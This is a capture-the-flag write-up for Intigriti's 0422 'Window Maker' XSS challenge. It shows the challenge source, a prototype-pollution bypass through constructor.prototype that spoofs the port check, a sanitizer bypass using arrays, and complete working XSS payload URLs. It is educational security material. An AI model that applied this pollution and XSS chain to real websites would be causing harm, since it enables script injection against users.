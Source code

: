 ```
function main() {
          const qs = m.parseQueryString(location.search)

          let appConfig = Object.create(null)
          appConfig["version"] = 1337
          appConfig["mode"] = "production"
          appConfig["window-name"] = "Window"
          appConfig["window-content"] = "default content"
          appConfig["window-toolbar"] = ["close"]
          appConfig["window-statusbar"] = false
          appConfig["customMode"] = false

          if (qs.config) {
            merge(appConfig, qs.config)
            appConfig["customMode"] = true
          }

          let devSettings = Object.create(null)
          devSettings["root"] = document.createElement('main')
          devSettings["isDebug"] = false
          devSettings["location"] = 'challenge-0422.intigriti.io'
          devSettings["isTestHostOrPort"] = false

          if (checkHost()) {
            devSettings["isTestHostOrPort"] = true
            merge(devSettings, qs.settings)
          }

          if (devSettings["isTestHostOrPort"] || devSettings["isDebug"]) {
            console.log('appConfig', appConfig)
            console.log('devSettings', devSettings)
          }

          if (!appConfig["customMode"]) {
            m.mount(devSettings.root, App)
          } else {
            m.mount(devSettings.root, {view: function() {
              return m(CustomizedApp, {
                name: appConfig["window-name"],
                content: appConfig["window-content"] ,
                options: appConfig["window-toolbar"],
                status: appConfig["window-statusbar"]
              })
            }})
          }

          document.body.appendChild(devSettings.root)
        }

        function checkHost() {
          const temp = location.host.split(':')
          const hostname = temp[0]
          const port = Number(temp[1]) || 443
          return hostname === 'localhost' || port === 8080
        }

        function isPrimitive(n) {
          return n === null || n === undefined || typeof n === 'string' || typeof n === 'boolean' || typeof n === 'number'
        }

        function merge(target, source) {
          let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

          for(let key in source) {
            if (protectedKeys.includes(key)) continue

            if (isPrimitive(target[key])) {
              target[key] = sanitize(source[key])
            } else {
              merge(target[key], source[key])
            }
          }
        }
        function sanitize(data) {
          if (typeof data !== 'string') return data
          return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
        }

        main()
      })()
```
+ Pollute Array.prototype via merge function
+ In the merge function, __proto__ is blocked, but we can bypass it using constructor.prototype.

```
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```
+ parseQueryString function from an object or library called m to parse the query string parameters from the current URL's location.search property. It assigns the resulting object to the variable qs
+ creating an empty appConfig object using Object.create(null). This is an empty object that doesn't inherit any properties or methods from the default Object prototype.
+ The code then sets several properties in the appConfig object, including version, mode, window-name, window-content, window-toolbar, window-statusbar, and customMode. These properties are initialized with specific values.
+ if (qs.config) { merge(appConfig, qs.config) appConfig["customMode"] = true }:

This if statement checks if the qs object has a property named config. If it does, it proceeds with the following actions:
It calls the merge function (which you defined earlier) to merge the properties from qs.config into the appConfig object. This effectively updates the appConfig object with values from the query string parameters.
It sets the customMode property in the appConfig object to true. This suggests that the configuration has been customized based on the query string parameters.

+ Although we can’t pollute Object.prototype because appConfig is created from Object.create(null), we can pollute Array.prototype via appConfig['window-toolbar'] which is an array!
+ We need to make checkHost() return true to perform another merge call
+ In checkHost, it checks if hostname is localhost or port is 8080, let’s take a closer look at the check:
```
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```
+ For example, assumed location.host is intigriti.io, then temp becomes ['intigriti.io'], and temp[1] is undefined because the length of the array is 1.
+ The JavaScript engine will look up Array.prototype[1] since temp has no property 1. So, combined with the step1, we can pollute Array.prototype[1] to bypass the check:
`config[window-toolbar][constructor][prototype][1]=8080`
```let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```
+ After bypass the check, we have another merge call, devSettings["root"] is an HTML element, so we can use ?settings[root][innerHTML] to set it’s innerHTML and try to perform XSS.
+ But, it’s not gonna work for two reasons.
First, there is a sanitize function for filtering < and >.
Second, the element only inserted to DOM after m.mount(), the content will be override by mithril.js.
`Mithril is a client-side JavaScript framework used to create a single-page application.`
+ For the first issue, we can resolve it by using a bug in sanitize function:
  
  ```
  function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')

  ```
What if data is an array? For example, `['<a>hello</a>']`?
Because it’s not a string, so it won’t be sanitized, the function just return the original value. When you assign this array to innerHTML, it casts to string.
Payload:
`?settings[root][innerHTML][0]=<svg onload=alert(1)>`
This would bypass the sanitiser.
+ The content of the element will be override by m.mount so our payload in innerHTML won’t work
+ we can set innerHTML to document.body instead of <main>.Then our payload won’t be override by mithril.js
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/e3fa266a-5821-4ba6-bf6b-4ec11648fa10)
final payload:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config%5Bwindow-toolbar%5D%5Bconstructor%5D%5Bprototype%5D%5B1%5D=8080&settings%5Broot%5D%5BownerDocument%5D%5Bbody%5D%5BinnerHTML%5D%5B0%5D=%3Cstyle%20onload=alert(document.domain)%3E

There is another magic to solve the issue without overriding document.body.innerHTML.

As pointed out here, `<img src=x onerror=alert(1)>` works even before inserted into the DOM. We can use this magic to set root.innerHTML and get XSS.
another payload:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config%5Bwindow-toolbar%5D%5Bconstructor%5D%5Bprototype%5D%5B1%5D=8080&settings%5Broot%5D%5BinnerHTML%5D%5B0%5D=%3Cimg%20src=x%20onerror=alert(document.domain)%3E

